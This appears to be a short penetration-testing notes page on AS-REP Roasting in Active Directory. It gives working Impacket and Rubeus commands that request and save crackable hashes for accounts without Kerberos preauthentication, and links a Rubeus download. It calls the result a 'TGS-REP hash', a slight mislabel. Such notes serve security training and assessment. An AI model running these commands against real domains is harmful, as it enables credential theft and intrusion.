 Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response.

+++ Perform AS-REP Roasting with Impacket
Our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash.

```bash 
impacket-GetNPUsers -dc-ip $DC_Ip -request -outputfile hashes.asreproast $Domain/$User
```

+++ Perform AS-REP Roasting with Rubeus

You must be in the Domain

```powershell 
.\Rubeus.exe asreproast /nowrap
```

[!file Rubeus](https://github.com/GhostPack/Rubeus/archive/refs/tags/1.6.4.zip)

+++
